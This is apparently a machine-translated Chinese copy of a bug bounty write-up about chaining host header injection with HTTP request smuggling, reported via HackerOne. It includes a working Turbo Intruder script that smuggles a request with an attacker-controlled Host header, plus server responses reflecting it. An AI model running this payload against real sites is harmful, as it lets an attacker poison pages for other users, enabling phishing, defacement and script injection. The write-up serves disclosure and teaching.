






# 通过走私获得报酬，合法的方式

> 原文：<https://infosecwriteups.com/get-paid-by-smuggling-the-legal-way-c31805de3c59?source=collection_archive---------2----------------------->

## 主机头注入和 HTTP 请求走私的爱情故事

正如你们所有聪明和有安全意识的读者可能已经知道的那样，那些早已被抛在尘埃中，被谷歌和大多数 bug bounty 程序忽视，被践踏在地上，被忽视的无聊 bug。如果您从事渗透测试工作(或任何相关的安全咨询工作),则需要所有可观察领域内的明星都参与到实际攻击场景中的漏洞通常会被标记为“信息性”或“低级”,这取决于对系统的影响。

虽然这些通常会在渗透测试报告中标记出来，但大多数 bug 奖励计划通常不会为这些 bug 发放奖金。

就像一个可以自动关闭的盒子一样，在你的渗透测试报告中包含信息性的发现是很好的，这样看起来就不那么空洞了。这样，你会因为没有发现漏洞而感觉更好——或者因为你的客户系统实际上是安全的而感到宽慰。然而，他们如何看待你的空洞报告，则是另一个问题。

得分为“信息”的调查结果不会带来任何直接的安全风险，也不会对机密性、完整性或可用性产生实际影响，但相应的补救措施被视为行业最佳做法。

> 就像一个可以自动关闭的盒子一样，在你的渗透测试报告中有信息发现是很好的，这样它看起来就不会那么空了。



*自动关机的无用盒子*

这些虫子是什么？下面列举几个:

*   主机头注入
*   自助跨站点脚本
*   跟踪 HTTP 方法已启用
*   过时的 JavaScript 库

一根筷子很容易折断，但是一捆筷子却很难折断。尽管这些漏洞可能很无聊，但当与其他漏洞联系在一起时，它们可能是灾难性的——我希望您能理解我的可怕类比。

好了，说够了，让我们直接进入我第一次支付赏金的故事。

我不会详细阐述 HTTP 请求走私的细节，因为互联网上已经有许多详细而有用的文章。如果你有兴趣了解更多，我推荐你阅读詹姆斯·凯特尔的文章和他的研究进展，从最早到最新:

*   [什么是 HTTP 请求走私？](https://portswigger.net/web-security/request-smuggling)
*   [HTTP Desync 攻击:请求走私重生](https://portswigger.net/research/http-desync-attacks-request-smuggling-reborn)
*   [HTTP Desync 攻击:接下来发生了什么](https://portswigger.net/research/http-desync-attacks-what-happened-next)
*   [打破 HTTP 请求走私者的枷锁](https://portswigger.net/research/breaking-the-chains-on-http-request-smuggler)

Watchfire 早在 2005 年发布的一份[白皮书](https://doc.lagout.org/Others/EN-HTTP-Request-Smuggling.pdf)就公布了这个漏洞，但 James Kettle 最近的研究再次点燃了安全社区对这个特定漏洞的兴趣。

基本上，HTTP 请求走私是由于不同的 web 服务器或代理解释内容长度和传输编码头的方式不一致，使得攻击者能够将 HTTP 请求从一个服务器偷偷(或走私)到另一个服务器而不被注意。



当 James Kettle 第一次发表关于 HTTP 请求走私和随之而来的 Burpsuite 的扩展 [HTTP 请求走私者](https://github.com/PortSwigger/http-request-smuggler)的文章时，恰好是我在 Bug 赏金猎人之旅的头几个月。

我也听说过虫子赏金猎人使用一种叫做“喷雾”的技术成功的故事。这意味着在多个域中祈祷和喷洒，一次只关注一个特定的漏洞，直到你找到一个漏洞。

我决定也这样做。

arkadiyt 的 Github 存储库被用来呈现所有活跃的 bug bounty 目标的列表，然后使用 [Burp-Importer](https://github.com/SmeegeSec/Burp-Importer) 将其导入 BurpSuite，填充站点地图。我设置了 BurpSuite 来连续两天在域上执行速率受限的爬行。随后，在运行 HTTP Request smugger……另外 2 天之前，过滤结果以删除 404 和所有不相关的内容(例如 JavaScript 文件)。

第一天过去了，一无所获。


第二天，我在上午 10:30 左右醒来，听到电脑风扇再次转动的声音。我跳下床，检查我的屏幕。就在那里，一个鲜红的问号图标，像早晨的太阳一样耀眼。



可能的 HTTP 请求走私

尽管这可能是一个误报，但遵循的经验法则是，除非经过人工验证，否则永远不要假设它是一个误报。

## 利用过程:用 HTTP 请求走私链接 HTTP 主机注入

在我开始之前，我的披露请求已经在去年年中被 TTS Bug Bounty 欣然接受，你可以在这里找到关于 HackerOne 的报告:

[https://hackerone.com/reports/726773](https://hackerone.com/reports/726773)

既然我已经把事情摆平了，我们开始吧。

HTTP Request Smuggler 附带的 turbo intruder 脚本非常有用，尽管它确实需要一些手动调整，这取决于您如何进一步利用该应用程序。

我将脚本配置为走私一个 HTTP 请求，该请求带有一个指向我的 Burp 协作者的主机头值，如下所示:

```
import re

def queueRequests(target, wordlists):

    # to use Burp's HTTP stack for upstream proxy rules etc, use engine=Engine.BURP
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=5,
                           requestsPerConnection=1,
                           resumeSSL=False,
                           timeout=10,
                           pipeline=False,
                           maxRetriesPerRequest=0,
                           engine=Engine.THREADED,
                           )
    engine.start()

    prefix = '''POST /hopefully404 HTTP/1.1
Host: **o0p31lhhe946t0sns65oy4vsejkb80.burpcollaborator.net**
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1'''

    chunk_size = hex(len(prefix)).lstrip("0x")
    attack = target.req.replace('0\r\n\r\n', chunk_size+'\r\n'+prefix+'\r\n0\r\n\r\n')
    content_length = re.search('Content-Length: ([\d]+)', attack).group(1)
    attack = attack.replace('Content-Length: '+content_length, 'Content-length: '+str(int(content_length)+len(chunk_size)-3))
    engine.queue(attack)

    for i in range(14):
        engine.queue(target.req)
        time.sleep(0.05)

def handleResponse(req, interesting):
    table.add(req)
```

我继续进行走私调查。

Boom！一系列无聊的 HTTP 请求中的一个离群点。与此同时，Burp collaborator 收到了一个 pingback。



在第 5 行捕获到走私的 HTTP 请求

我的瞳孔放大，因为我被兴奋的感觉吞没了，这是一个非常强烈的迹象，表明攻击成功了。

Turbo intruder 发出的请求如下所示，我用红色标出了走私的请求:



合法请求(黄色)和走私请求(红色)

出于某种原因，后端正在利用主机头值，并将其反映在用户的响应中。将它与 HTTP 请求走私链接起来将允许我利用其他用户而不是我自己。下面的截图显示了反射值的 67 个实例！



主机头值到处都有反映，包括 JavaScript 链接、样式表引用，甚至菜单级重定向。下面显示了服务器响应的一个片段，为了你的理智，它被大量删减。

```
<link rel="stylesheet" href="**https://o0p31lhhe946t0sns65oy4vsejkb80.burpcollaborator.net**/app/plugins/simple-tooltips/zebra_tooltips.css?ver=5.2.4">
<link rel="stylesheet" href="**https://o0p31lhhe946t0sns65oy4vsejkb80.burpcollaborator.net**/app/plugins/the-events-calendar/common/src/resources/css/reset.min.css?ver=4.9.16">

-snip-

<a class="dropdown-toggle local-link" data-toggle="dropdown" data-target="#" href="**https://o0p31lhhe946t0sns65oy4vsejkb80.burpcollaborator.net**/communities/">Topics <b class="caret"></b></a>
<ul class="dropdown-menu topics">
    <li class="menu-agriculture topic-food"><a href="**https://o0p31lhhe946t0sns65oy4vsejkb80.burpcollaborator.net**/food/" class="local-link"><i></i><span>Agriculture</span></a></li>
    <li class="menu-climate topic-climate"><a href="**https://o0p31lhhe946t0sns65oy4vsejkb80.burpcollaborator.net**/climate/" class="local-link"><i></i><span>Climate</span></a></li>
    <li class="menu-consumer topic-consumer"><a href="**https://o0p31lhhe946t0sns65oy4vsejkb80.burpcollaborator.net**/consumer/" class="local-link"><i></i><span>Consumer</span></a></li>
```

*你和我想的一样吗？*可能性无穷无尽，仅举几例:

*   完整的网站用户界面和内容篡改— *在可信网站上传播错误信息和恐惧，网络钓鱼活动等。*
*   跨站点脚本
*   打开重定向

这是当时的我。


## 最后一步

虽然我几乎已经确认了这个漏洞，但我通过使用我的手机(连接到 4G)确保我获得相同的 404 页面，确保它可以在不同的网络上被利用。

为什么？你可能会问。

Portswigger 网站关于 HTTP 请求走私的一个重要脚注指出:

> “攻击”请求和“正常”请求应该使用不同的网络连接发送到服务器。通过同一个连接发送两个请求并不能证明漏洞的存在。

虽然没有提供原因，但我最有根据的猜测是，您正在测试的网络中的一些设备或软件可能会拦截您进出互联网的流量，这可能会复制您在请求走私漏洞中看到的行为。

例如，一个公司的反向代理可能正在操纵您的出站 HTTP 请求，使您认为您可能已经利用了后端 web 服务器，而事实上，内部反向代理始终是罪魁祸首。

## 尾注

如果您发现一个 web 应用程序容易受到 HTTP 请求走私的攻击，请尝试将其与其他漏洞联系起来，如开放重定向、跨站脚本甚至窃取用户数据。

试着看看后端在服务器的响应中将注入的信息放在了请求中的什么地方，然后进行处理。

唯一的限制是你的想象力。

保持冷静，祝你黑客生涯愉快！

如果你喜欢这篇文章，一定要关注我的 Twitter，或者通过 LinkedIn 与我联系。

领英:[https://www.linkedin.com/in/jameslingyi/](https://www.linkedin.com/in/jameslingyi/)
推特:[https://twitter.com/James_puppykok](https://twitter.com/James_puppykok)